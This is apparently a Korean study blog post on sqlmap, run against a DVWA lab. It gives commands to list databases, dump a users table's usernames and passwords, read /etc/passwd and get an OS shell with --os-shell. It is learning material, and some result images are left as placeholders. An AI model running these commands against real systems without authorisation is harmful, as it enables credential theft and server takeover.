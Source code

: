 ```yaml
---
layout: post
title: "Sqlmap 공부"
date: 2025-09-07 17:00:00 +0900
categories: [해킹 툴]
---
```


### 1. Sqlmap 개요

Sqlmap은 SQL Injection 취약점을 탐지하고 공격을 자동화하는 오픈소스 도구이다. 명령 줄 인터페이스(CLI) 기반으로 동작하며 데이터베이스 정보를 탈취하거나 서버의 운영체제 명령어까지 실행할 수 있는 강력한 기능을 갖추고 있다.

수동으로 하려면 매우 오래 걸리는 Blind SQL Injection과 같은 공격을 자동화하여 공격 시간을 획기적으로 단축시킨다.

---

### 2. 기본 사용법 및 옵션

#### **기본 스캔**
`-u` 옵션으로 취약점을 점검할 URL을 지정한다. Sqlmap이 테스트할 파라미터를 URL에 포함해야 한다.
```bash
sqlmap -u "http://[Target IP]/vulnerabilities/sqli/?id=1&Submit=Submit#"
```

#### **주요 옵션**
*   **--cookie="[COOKIE]"**: 인증이 필요한 페이지를 점검할 때 사용한다. 브라우저에서 복사한 쿠키 값을 입력한다.
*   **--dbs**: 공격 가능한 데이터베이스의 목록을 보여준다.
*   **-D [DB_NAME] --tables**: 특정 데이터베이스에 포함된 테이블 목록을 보여준다.
*   **-D [DB_NAME] -T [TABLE_NAME] --columns**: 특정 테이블에 포함된 컬럼 목록을 보여준다.
*   **-D [DB_NAME] -T [TABLE_NAME] -C [COLUMN_NAME] --dump**: 특정 컬럼의 데이터를 모두 추출하여 보여준다.
*   **--batch**: 스캔 과정에서 Sqlmap이 묻는 모든 질문에 기본값(Y)으로 자동 응답한다.

---

### 3. 사용 예시

Target 서버 `192.9.200.11`의 DVWA SQL Injection 페이지를 대상으로 데이터베이스 목록을 확인하고 사용자 정보를 탈취했다.

#### **데이터베이스 목록 확인**
```bash
sqlmap -u "http://192.9.200.11/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="security=low; PHPSESSID=..." --dbs
```
[여기에 데이터베이스 목록이 출력된 결과 이미지 삽입]

#### **`users` 테이블 데이터 탈취**
위에서 확인한 `dvwa` 데이터베이스의 `users` 테이블에서 `user`, `password` 컬럼의 내용을 탈취한다.
```bash
sqlmap -u "..." --cookie="..." -D dvwa -T users -C user,password --dump
```
[여기에 users 테이블의 내용이 출력된 결과 이미지 삽입]

---

### 4. 파일 시스템 접근 및 OS 명령어 실행

데이터베이스 사용자가 충분한 권한(예: FILE 권한)을 가졌을 때 Sqlmap은 파일 시스템에 접근하거나 운영체제 쉘을 획득하는 기능을 제공한다.

#### **파일 시스템 접근 `--file-read`**
`--file-read` 옵션을 사용하면 서버의 로컬 파일을 직접 읽을 수 있다. 리눅스 시스템의 사용자 정보를 담고 있는 `/etc/passwd` 파일을 읽는 예시이다.
```bash
sqlmap -u "..." --cookie="..." --file-read "/etc/passwd" --batch
```

#### **운영체제 쉘 획득 (`--os-shell`)**
`--os-shell` 옵션은 Sqlmap의 가장 강력한 기능 중 하나로, 성공 시 대상 서버의 운영체제 쉘을 획득하여 직접 명령을 내릴 수 있다. Sqlmap은 이 과정에서 웹 서버의 쓰기 가능한 경로에 명령어 실행을 위한 작은 스크립트(Stager)를 업로드한다.
```bash
sqlmap -u "..." --cookie="..." --os-shell
```
[여기에 --os-shell 획득 이미지 삽입]

`os-shell` 세션에 성공적으로 진입하면 `whoami`, `ls -l` 등 원하는 시스템 명령어를 실행하여 서버를 직접 제어할 수 있다.

<hr class="short-rule">
